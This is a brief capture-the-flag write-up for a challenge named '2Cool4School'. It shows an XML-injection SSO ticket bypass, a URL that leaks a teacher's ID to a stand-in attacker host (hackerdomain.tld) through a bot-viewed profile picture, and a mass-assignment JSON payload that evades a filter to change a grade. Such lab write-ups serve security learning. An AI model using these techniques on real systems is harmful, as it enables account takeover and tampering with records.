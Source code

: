 

# 2Cool4School

## SSO Docs

Reading the html of the login page, shows a comment about TODOs which includes updating the swagger docs. Swagger is a common tool for sharing API documentation and can be accessed on /swagger of the sso. This includes the /register which gives a new account.

## Auth-Bypass

Given the randomly generated student-account given upon request, check the SSO flow Find the /validate path in swagger docs Discover the service and ticket params, given the error Discover the TGT- is needed Discover the XML injection Craft bypass ticket fx http://grade.vcap.me/login?ticket=TGT-8a998821-31c7-11ed-b7f1-0242c0a8c002student57895

## Find teacher-userid

Create a login-url for a exfil service fx http://sso.vcap.me/login?service=http://hackerdomain.tld/example.jpg Upload as profile-picture instead of base64 url Trigger teacher-bot to read your message Use teacher-userid to authenticate as teacher

http://grade.vcap.me/login?ticket=TGT-2f22e014-3aa1-11ed-9918-0242ac1c0002teacher51289

## Change grade

Send update with grade change instead of note change. Due to overposting this allows for changing the grade. There is a filter which can be bypassed by uppercasing "Grade":

{"name":"Fundamentals of Cyber Security","values":{"Grade":"A"}}